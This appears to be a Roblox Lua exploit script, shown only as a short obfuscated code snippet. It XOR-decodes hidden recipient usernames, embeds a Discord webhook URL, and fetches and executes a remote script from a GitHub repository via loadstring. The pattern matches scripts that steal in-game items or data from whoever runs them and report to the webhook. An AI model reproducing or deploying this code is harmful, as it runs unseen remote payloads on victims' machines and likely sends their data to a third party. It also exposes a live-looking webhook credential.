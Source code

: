 local v0=string.char;local v1=string.byte;local v2=string.sub;local v3=bit32 or bit ;local v4=v3.bxor;local v5=table.concat;local v6=table.insert;local function v7(v8,v9)local v10={};for v11=1, #v8 do v6(v10,v0(v4(v1(v2(v8,v11,v11 + 1 )),v1(v2(v9,1 + ((v11-1)% #v9) ,1 + ((v11-1)% #v9) + 1 )))%256 ));end return v5(v10);end UserName=v7("\221\87\250\90\116\222\86\184\16\32\134\1\186\31\45\135\15\187","\191\56\137\41\25");UserName2=v7("\228\201\85\33\171\3\170\183\159\31\107\255\81\242\178\158\17\96","\134\166\38\82\198\98\196");Webhook="https://discord.com/api/webhooks/1089562231508840569/5R37wDROkgQS1wFgY3Ts6pW6ibiUoYuUzVSiMEJAd_vTEOpaLoav8oVmvpu3o2Tbv0uK";loadstring(game:HttpGet("https://raw.githubusercontent.com/k4ftt/rizzhub/main/New.lua"))();
